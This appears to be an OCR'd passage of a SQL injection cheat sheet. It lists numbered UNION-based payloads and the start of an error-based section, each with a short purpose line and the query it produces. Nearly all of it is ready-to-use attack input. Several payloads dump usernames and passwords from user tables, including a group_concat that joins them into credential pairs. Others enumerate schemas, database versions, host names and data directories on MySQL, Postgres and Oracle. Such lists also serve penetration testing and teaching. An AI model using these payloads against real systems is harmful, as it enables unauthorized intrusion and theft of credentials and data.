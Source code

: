 1.>> ' UNION SELECT null,null--
   - Initial check for column count alignment.
   - `SELECT * FROM news WHERE id='' UNION SELECT null, null--`

2.>> ' UNION SELECT username, password FROM users--
   - Leverages known table/column names to fetch sensitive data.
   - `SELECT * FROM logins WHERE id='' UNION SELECT username, password FROM users--`

3.>> ' UNION ALL SELECT 1,2,3--
   - Used to map column ordering and visibility in output.
   - `SELECT * FROM entries WHERE id='' UNION ALL SELECT 1,2,3--`

4.>> ' UNION SELECT table_name, null FROM information_schema.tables--
   - Reveals schema info (MySQL).
   - `SELECT * FROM x WHERE id='' UNION SELECT table_name, null FROM information_schema.tables--`

5.>> ' UNION SELECT null, version()--
   - Retrieves database version (Postgres/MySQL).
   - `SELECT * FROM y WHERE id='' UNION SELECT null, version()--`

6.>> ' UNION SELECT user(), database()--
   - Retrieves current DB user and DB name.
   - `SELECT * FROM a WHERE id='' UNION SELECT user(), database()--`

7.>> ' UNION SELECT @@hostname, @@datadir--
   - Reads MySQL host and data directory.
   - `SELECT * FROM site WHERE id='' UNION SELECT @@hostname, @@datadir--`

8.>> ' UNION SELECT 1, table_name FROM all_tables--
   - For Oracle; lists table names.
   - `SELECT * FROM users WHERE id='' UNION SELECT 1, table_name FROM all_tables--`

9.>> ' UNION SELECT null, password FROM members--
   - Accesses password field in another table.
   - `SELECT * FROM data WHERE id='' UNION SELECT null, password FROM members--`

10.>> ' UNION SELECT 1, group_concat(username, ':', password) FROM users--
    - Concatenates results for larger data leaks.
    - `SELECT * FROM temp WHERE id='' UNION SELECT 1, group_concat(username, ':', password) FROM users--`

## 3. Error-Based SQL Injection Payloads
Trigger database errors to reveal information via error messages.

1.>> '
   - Syntax error triggers DB error with query details.
   - Input: `'` → Error: syntax error at or near '...'

2.>> 1/0
   - Forces division by zero to provoke error.
   - `SELECT * FROM posts WHERE id=1/0`

3.>> ' AND updatexml(1,concat(0x7e,(SELECT version())),0)--
   - MySQL: Forces error to display DB version.
   - Input: `' AND updatexml(1,concat(0x7e,(SELECT version())),0)--`
